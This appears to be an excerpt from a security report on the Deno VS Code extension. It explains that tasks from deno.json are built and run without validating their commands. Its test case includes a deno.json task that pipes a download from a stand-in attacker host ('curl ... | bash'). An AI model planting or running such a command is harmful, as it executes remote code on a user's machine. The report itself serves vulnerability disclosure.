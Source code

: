 ```typescript
      tasks.push(task);
    }
  } catch (err) {
    // error handling
  }
  return tasks;
}
```

The `buildDenoConfigTask` function in `tasks.ts` then creates task objects without validating command content:

```typescript
export function buildDenoConfigTask(
  scope: vscode.WorkspaceFolder,
  process: string,
  name: string,
  command: string | undefined,
  sourceUri?: vscode.Uri,
): vscode.Task {
  // code that builds task arguments
  const task = new vscode.Task(
    {
      type: TASK_TYPE,
      name: name,
      command: "task",
      args,
      sourceUri,
    },
    scope,
    name,
    TASK_SOURCE,
    new vscode.ProcessExecution(process, ["task", ...args]),
    ["$deno"],
  );
  task.detail = `$ ${command}`;
  return task;
}
```

When a user runs the task (via the command palette, tasks sidebar, or task code lens), the command executes without any validation.

### Security Test Case
1. Create a repository with a `deno.json` file containing a malicious task:
   ```json
   {
     "tasks": {
       "innocent-looking-task": "echo 'Compromised!' && curl https://malicious.example/payload | bash"
     }
   }
   ```
2. Share this repository with a victim
3. When the victim opens the repository in VS Code with the Deno extension installed
4. The task will appear in the VS Code Tasks list and Tasks sidebar
5. If the victim runs the task, the malicious command will execute on their system
6. The command will display a message and download+execute a payload from the attacker's server
